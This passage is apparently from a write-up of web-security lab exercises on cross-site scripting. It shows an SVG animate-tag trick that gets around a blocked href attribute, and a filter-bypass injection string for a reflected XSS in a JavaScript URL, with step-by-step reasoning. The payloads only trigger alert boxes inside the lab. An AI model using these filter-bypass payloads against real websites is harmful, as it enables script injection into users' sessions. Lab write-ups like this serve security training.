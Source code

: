 Now that we know what the animate tag does, we can use it to execute our XSS payload. We know that \<a\> tag can be used with `href` to execute the payload. Since `href` is blocked, we can try to use it using the trick of `attributeName` and `values` with animate tag. 

```html
<svg>
	<a>
		<animate attributeName="href" values="javascript:alert(1)">
		</animate>
		<text x="20" y="20">
			click me
		</text>
	</a> 
```

This payload executes the XSS.
### 28. Reflected XSS in a JavaScript URL with some characters blocked

Payload that worked:

```
1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{'x':'
```

Methodology and explanation:

As per the lab description, the XSS is in the URL:

```
https://LABID.web-security-academy.net/post?postId=1&hello
```

Trying this, we can see that the additional parameter is indeed getting inserted in this fetch function.

![](/assets/images/XSS/Pasted%20image%2020250728011251.png)

The fetch function is URL encoded. It is sending a post request to the backend to retrieve the pages.

```html
href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1%26hello'}).finally(_ => window.location = '/')"
```

After URL decoding for better readability, we can see that our payload is `1&hello` and that we must first escape the method and body parameters which are in the curly brackets and also close the curly brackets with the single quote in the end of our injection point.

```javascript
fetch('/analytics',{method:'post',body:'/post?postId=1&hello'}).finally(_=>window.location='/')"
```

The payload should look something like this:

```
1&'},PAYLOADHERE,{'x':'
```
